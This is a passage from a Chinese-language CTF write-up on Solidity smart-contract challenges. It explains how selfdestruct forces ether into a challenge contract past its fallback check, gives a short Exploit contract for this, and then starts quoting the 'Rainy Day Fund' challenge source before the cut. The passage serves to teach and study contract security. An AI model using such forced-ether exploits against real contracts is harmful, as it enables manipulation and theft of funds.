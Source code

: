         function() external payable ctf{
            require(msg.value == 1 szabo, "Incorrect Transaction Value");
            if (address(this).balance >= winner){
                msg.sender.transfer(address(this).balance);
            }
        }

    }
    ```

目标是让题目合约账户中的余额不少于 5 ether，而且合约中的 fallback 函数只接收 1 szabo

但是如果通过另一个合约的 selfdestruct 来将剩余余额全部转移到题目合约上的话是不会经过 fallback 函数的，所以创建另一个合约，转入不少于 3.5 ether 然后再 selfdestruct 就可以了 

???+ done "exp"
    ```solidity
    contract Exploit {
        address challenge;
        constructor(address addr) public payable {
            challenge = addr;
        }
        function exp() public {
            selfdestruct(challenge);
        }
    }
    ```

---

## Rainy Day Fund

??? question "题目合约"
    ```solidity
    pragma solidity 0.4.24;

    import "../CtfFramework.sol";

    contract DebugAuthorizer{
        
        bool public debugMode;

        constructor() public payable{
            if(address(this).balance == 1.337 ether){
                debugMode=true;
            }
        }
    }

    contract RainyDayFund is CtfFramework{

        address public developer;
        mapping(address=>bool) public fundManagerEnabled;
        DebugAuthorizer public debugAuthorizer;

        constructor(address _ctfLauncher, address _player) public payable
            CtfFramework(_ctfLauncher, _player)
        {
            //debugAuthorizer = (new DebugAuthorizer).value(1.337 ether)(); // Debug mode only used during development
            debugAuthorizer = new DebugAuthorizer();
            developer = msg.sender;
            fundManagerEnabled[msg.sender] = true;
        }
        